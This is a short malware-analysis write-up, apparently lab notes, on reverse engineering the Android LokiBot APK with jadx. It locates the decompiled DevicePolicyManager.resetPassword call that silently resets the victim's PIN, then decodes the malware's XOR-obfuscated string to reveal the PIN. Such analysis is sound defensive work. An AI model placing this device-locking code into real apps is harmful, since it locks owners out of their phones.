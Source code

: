 # Android Malware LokiBot
### Steps

**1. Download and unpack LokiBot.apk**
- Download and rename to "LokiBot.apk" (or app.apk)
- `jadx-gui` and check decompiled code
  - *Remark: had to set path to the $path variable again: `export PATH=$PATH:/home/hacker/jadx/build/jadx/bin`*
- Not done but would have been possible to analyze code on the level of java byte code:  'apktool d LokiBot.apk' 


**2. Check what to look for**
LokiBot sets/resets the device PIN. So first thing to do is find the programming interface that does just that.

Candidate: DevicePolicyManager.resetPassword (or resetPasswordWithToken)
https://developer.android.com/reference/android/app/admin/DevicePolicyManager

**3. Finde usage resetPassword**
Found in class compse.refact.st.upsssss.resetPassword

relevant code
```
public class resetPassword extends Activity {
    public void fsafsdfsfsdfsfsdfsd() {
        ((DevicePolicyManager) getSystemService(rthrthrtjrtjrjtdcbcvbc.fsafsdfsfsdfsfsdfsd("e4w8b4^!n=h2x"))).resetPassword(e.fsafsdfsfsdfsfsdfsd("F\"F\"F\""), 0);

        //new pw: e.fsafsdfsfsdfsfsdfsd("F\"F\"F\"")
    }
}
``

Run relevant code in a separate Java project: 
```

public class JavaProject {
	public static void main(String[] args) {
		String newPIN = fsafsdfsfsdfsfsdfsd("F\"F\"F\"");
		System.out.println("NEW PIN: " + newPIN); // 666666
	}

	public static String fsafsdfsfsdfsfsdfsd(String str) {
		int length = str.length();
		char[] cArr = new char[length];
		int i = length - 1;
		int i2 = i;
		while (i >= 0) {
			int i3 = i2 - 1;
			cArr[i2] = (char) (str.charAt(i2) ^ 20);
			if (i3 < 0) {
				break;
			}
			i = i3 - 1;
			cArr[i3] = (char) (str.charAt(i3) ^ 'p');
			i2 = i;
		}
		return new String(cArr);
	}

```